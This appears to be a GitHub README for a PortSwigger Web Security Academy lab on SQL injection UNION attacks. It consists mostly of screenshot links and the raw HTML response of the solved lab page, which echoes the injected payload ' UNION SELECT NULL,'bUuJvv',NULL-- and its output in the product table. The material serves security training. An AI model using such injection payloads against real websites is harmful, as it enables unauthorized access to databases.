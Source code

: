 # lab-2Lab-SQL-injection-
SQL injection UNION attack, finding a column containing text

assssdddsds
![image](https://user-images.githubusercontent.com/70814577/112753712-721f4e80-8fe1-11eb-90fc-f7a241d413f6.png)
![image](https://user-images.githubusercontent.com/70814577/112753727-82cfc480-8fe1-11eb-927c-cf7a96a9d8e3.png)
![image](https://user-images.githubusercontent.com/70814577/112753736-90854a00-8fe1-11eb-86a9-edeb5b54fa9c.png)
![image](https://user-images.githubusercontent.com/70814577/112753741-99761b80-8fe1-11eb-8e6c-5c57ab90813e.png)
![image](https://user-images.githubusercontent.com/70814577/112753924-67b18480-8fe2-11eb-997c-a4289fad96db.png)
![image](https://user-images.githubusercontent.com/70814577/112753942-7e57db80-8fe2-11eb-9035-e9564115a75d.png)
![image](https://user-images.githubusercontent.com/70814577/112753975-aa735c80-8fe2-11eb-9127-7c8004af912a.png)
![image](https://user-images.githubusercontent.com/70814577/112753992-c70f9480-8fe2-11eb-89a1-59be26d58943.png)
![image](https://user-images.githubusercontent.com/70814577/112754004-d42c8380-8fe2-11eb-82b9-340d2b95db0c.png)
![image](https://user-images.githubusercontent.com/70814577/112754042-06d67c00-8fe3-11eb-9875-e761cc821003.png)
![image](https://user-images.githubusercontent.com/70814577/112754074-279ed180-8fe3-11eb-8133-61b190d8323d.png)

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 6858

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection UNION attack, finding a column containing text</title>
    </head>
    <body>
            <script src="/resources/labheader/js/labHeader.js"></script>
            
            <div id="academyLabHeader">
                <section class="academyLabBanner is-solved">
                    <div class="container">
                    <div class="logo"></div>
                        <div class="title-container">
                            <h2>SQL injection UNION attack, finding a column containing text</h2>
                            <a class="link-back" href="https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text">
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;<svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 28 30" enable-background="new 0 0 28 30" xml:space="preserve" title="back-arrow">
    <g>
        <polygon points="1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15"></polygon>
        <polygon points="14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15"></polygon>
    </g>
</svg>
                            </a>
                        </div>
                        <div class="widgetcontainer-lab-status is-solved">
                            <span>LAB</span>
                            <p>Solved</p>
                            <span class="lab-status-icon"></span>
                        </div>
                    </div>
                </section>
                <section id="notification-labsolved" class="notification-labsolved-hidden">
                    <div class="container">
                        <h4>Congratulations, you solved the lab!</h4>
                        <div>
                            <a class="button" href="https://twitter.com/intent/tweet?text=I+completed+the+Web+Security+Academy+lab%3a%0aSQL+injection+UNION+attack%2c+finding+a+column+containing+text%0a%0a@WebSecAcademy%0a&url=https%3a%2f%2fportswigger.net%2fweb-security%2fsql-injection%2funion-attacks%2flab-find-column-containing-text&related=WebSecAcademy,Burp_Suite">
                    <svg xmlns="http://www.w3.org/2000/svg" width="20.44" height="17.72" viewBox="0 0 20.44 17.72">
                        <title>twitter-button</title>
                        <path d="M0,15.85c11.51,5.52,18.51-2,18.71-12.24.3-.24,1.73-1.24,1.73-1.24H18.68l1.43-2-2.74,1a4.09,4.09,0,0,0-5-.84c-3.13,1.44-2.13,4.94-2.13,4.94S6.38,6.21,1.76,1c-1.39,1.56,0,5.39.67,5.73C2.18,7,.66,6.4.66,5.9-.07,9.36,3.14,10.54,4,10.72a2.39,2.39,0,0,1-2.18.08c-.09,1.1,2.94,3.33,4.11,3.27A10.18,10.18,0,0,1,0,15.85Z"></path>
                    </svg>
                                Share your skills!
                            </a>
                            <a href="https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text">
                                Continue learning 
                                <svg version="1.1" id="Layer_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 28 30" enable-background="new 0 0 28 30" xml:space="preserve" title="back-arrow">
                                    <g>
                                        <polygon points="1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15"></polygon>
                                        <polygon points="14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15"></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                    </div>
                </section>

            <script src="/resources/labheader/js/completedLabHeader.js"></script>            </div>

        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        <img src="/resources/images/shop.svg">
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Clothing, shoes and accessories&apos; UNION SELECT NULL,&apos;bUuJvv&apos;,NULL--</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a href="/">All</a>
                        <a href="/filter?category=Clothing%2c+shoes+and+accessories">Clothing, shoes and accessories</a>
                        <a href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a href="/filter?category=Gifts">Gifts</a>
                        <a href="/filter?category=Pets">Pets</a>
                        <a href="/filter?category=Tech+gifts">Tech gifts</a>
                    </section>
                    <table class="is-table-numbers">
                        <tbody>
                        <tr>
                            <th>Baby Minding Shoes</th>
                            <td>$70.74</td>
                            <td><a class="button is-small" href="/product?productId=2">View details</a></td>
                        </tr>
                        <tr>
                            <th>The Alternative Christmas Tree</th>
                            <td>$31.90</td>
                            <td><a class="button is-small" href="/product?productId=7">View details</a></td>
                        </tr>
                        <tr>
                            <th>Paddling Pool Shoes</th>
                            <td>$65.73</td>
                            <td><a class="button is-small" href="/product?productId=12">View details</a></td>
                        </tr>
                        <tr>
                            <th>Portable Hat</th>
                            <td>$89.67</td>
                            <td><a class="button is-small" href="/product?productId=17">View details</a></td>
                        </tr>
                        <tr>
                            <th>bUuJvv</th>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
        </div>
    </body>
</html>
